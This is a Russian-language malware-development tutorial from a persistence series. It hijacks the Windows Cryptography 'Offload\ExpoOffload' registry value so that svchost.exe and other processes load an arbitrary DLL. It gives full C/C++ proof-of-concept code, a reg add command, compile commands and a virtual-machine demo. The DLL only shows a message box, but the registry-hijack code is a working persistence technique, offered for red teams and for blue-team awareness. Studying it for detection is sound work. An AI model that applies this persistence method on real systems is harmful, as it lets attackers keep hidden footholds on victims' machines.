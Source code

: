 \newpage
\subsection{82. разработка вредоносного ПО: закрепление (persistence) - часть 16. Криптографические ключи реестра. Простой пример на C++.}

﷽

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через ключи реестра Cryptography.     

В процессе изучения реестра я наткнулся на интересный путь:     

`HKLM\Software\Microsoft\Cryptography\`     

И там есть такая функция `OffloadModExpo`. Если я правильно понимаю, эта функция используется для выполнения всех модульных возведений в степень как для операций с открытым, так и с закрытым ключом:     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

Я не вдавался в слишком большие подробности, самой возможности поэкспериментировать с этим ключом и значением в реестре Windows мне достаточно. Поэтому я попробовал перехватить путь к этой DLL:     

`HKLM\Software\Microsoft\Cryptography\Offload` и его значение.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL. Как обычно, просто `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - вредоносная DLL
DLL hijacking через путь в реестре Cryptography
aвтор: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Компилируем:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](./images/76/2022-10-21_05-20.png){width="80%"}    

И создаем Proof-of-Concept код для перехвата (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Вот и все, что мне нужно для эксперимента.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш Proof-of-Concept код:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    


Затем, для чистоты эксперимента, проверяем ключи реестра на машине жертвы и удаляем ключи, если они существуют:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Затем запускаем наш скрипт `pers.exe` и проверяем снова:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

Теперь попробую запустить что-нибудь. Например, открыть ссылку `https:\...` в браузере или воспользоваться строкой поиска.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

В процессе выполнения некоторых криптографических операций в фоне мы будем видеть все больше всплывающих окон.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Кроме того, мне даже не удалось запустить `Process Hacker 2` для исследования ситуации.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Затем я восстановил снимок виртуальной машины и запустил `Procmon` из sysinternals с следующими фильтрами:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

И в результате:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

Как можно видеть, на каком-то этапе моя "вредоносная" `meow-meow` DLL была загружена `svchost.exe`, `ProcessHacker.exe` и другими процессами.     

Таким образом, все сработало правильно. Идеально! =^..^=     

После завершения экспериментов восстанавливаем состояние реестра: 

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     

